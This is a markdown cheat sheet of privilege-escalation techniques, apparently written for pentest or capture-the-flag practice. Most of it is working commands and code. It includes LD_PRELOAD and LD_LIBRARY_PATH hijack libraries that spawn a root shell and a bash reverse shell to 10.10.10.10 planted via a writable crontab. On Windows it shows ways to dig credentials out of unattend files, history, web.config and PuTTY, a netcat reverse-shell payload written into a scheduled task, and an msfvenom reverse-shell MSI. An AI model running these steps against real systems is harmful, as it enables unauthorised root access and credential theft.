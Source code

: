# PrivEscalation
***
* ### Better listener shell experience
```python -c 'import pty;pty.spawn("/bin/bash")'``` 


* ### List sudo capability of the current user
```sudo -l```


* ### Find interesting binaries that can exploit shell
```find / -perm /6000 2>/dev/null | grep '/bin'```


* ### https://gtfobins.github.io/ followed the interesting tools that can exploit 


* ### env_keep exploit when ```sudo -l``` and ```ddl <thetargetedprogram>``` to find its libraries

> #### - Take advantage of LD_PRELOAD
a. compile the library.
```gcc -fPIC -shared -nostartfiles -o /tmp/preload.so /home/user/preload.c```
```#include <stdio.h>
#include <sys/types.h>
#include <stdlib.h>

void _init() {
	unsetenv("LD_PRELOAD");
	setresuid(0,0,0);
	system("/bin/bash -p");
}
```

b. sudo program with the LD_PRELOAD
```sudo LD_PRELOAD=/tmp/preload.so program-name-here```

> #### - Take advantage of LD_LIBRARY_PATH
a. find the libraries used by the program
```ldd /usr/sbin/<program> #for example```

b. compile the library with one of the libraries name
```gcc -o /tmp/<libraryname> -shared -fPIC /home/user/library_path.c```
```#include <stdio.h>
#include <stdlib.h>

static void hijack() __attribute__((constructor));

void hijack() {
	unsetenv("LD_LIBRARY_PATH");
	setresuid(0,0,0);
	system("/bin/bash -p");
}
```

c. sudo program with the LD_LIBRARY_PATH
```sudo LD_LIBRARY_PATH=/tmp <programname>```


* ### Cron job if it's writable on /etc/crontab file (can use any available type of reverse shell http://revshells.com/ ):
```#!/bin/bash
bash -i >& /dev/tcp/10.10.10.10/4444 0>&1
```


* ### Automated tools
LinPeas: https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite/tree/master/linPEAS
LinEnum: https://github.com/rebootuser/LinEnum
LES (Linux Exploit Suggester): https://github.com/mzet-/linux-exploit-suggester
Linux Smart Enumeration: https://github.com/diego-treitos/linux-smart-enumeration
Linux Priv Checker: https://github.com/linted/linuxprivchecker

* # Windows Commands

* ### unattended files found in
```
 C:\Unattend.xml
 C:\Windows\Panther\Unattend.xml
 C:\Windows\Panther\Unattend\Unattend.xml
 C:\Windows\system32\sysprep.inf
 C:\Windows\system32\sysprep\sysprep.xml	
```
* ### Powershell history 
```
type %userprofile%\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadline\ConsoleHost_history.txt
```

* ### Find saved credentials and use runas to open cmd of those creds
To list the credentials available for this user ```cmdkey /list``` 
To use that user's cmd ```runas /savecred /user:<USER> cmd.exe```

*### Find web.config that belong to IIS in those location
```
 C:\inetpub\wwwroot\web.config
 C:\Windows\Microsoft.NET\Framework64\v4.0.30319\Config\web.config
```
and to find database connections in them use 
```
type C:\Windows\Microsoft.NET\Framework64\v4.0.30319\Config\web.config | findstr connectionString
```

* ### Retrieve creds from PuTTy
```reg query HKEY_CURRENT_USER\Software\SimonTatham\PuTTY\Sessions\ /f "Proxy" /s```
	
	
* ### Scheduled tasks privesc
```
schtasks /query /tn vulntask /fo list /v <= see the executer account and the file executed
icacls c:\tasks\schtask.bat <== check the file executed permessions if writable
echo c:\tools\nc64.exe -e cmd.exe ATTACKER_IP 4444 > C:\tasks\schtask.bat <== add payload to the executed file
schtasks /run /tn vulntask <== run the task to get reverse shell with executer's account
```

* ### AlwaysInstalledElevated
```
Check if both registeries are set
C:\> reg query HKCU\SOFTWARE\Policies\Microsoft\Windows\Installer
C:\> reg query HKLM\SOFTWARE\Policies\Microsoft\Windows\Installer

Use msfvenom to create a malicious payload
msfvenom -p windows/x64/shell_reverse_tcp LHOST=ATTACKING_10.10.204.124 LPORT=LOCAL_PORT -f msi -o malicious.msi
	
Then run it after setting the multi handler on metasploit
msiexec /quiet /qn /i C:\Windows\Temp\malicious.msi
```
# Reverse Shell
***
* ### https://www.revshells.com/

* ### MonkeyPenTest

* ### Start webserver using python ```sudo python3 -m http.server 80``` then download files into victim shell 
Linux :"wget <LOCAL-IP>/socat -O /tmp/socat"
Windows: "Invoke-WebRequest -uri <LOCAL-IP>/socat.exe -outfile C:\\Windows\temp\socat.exe"

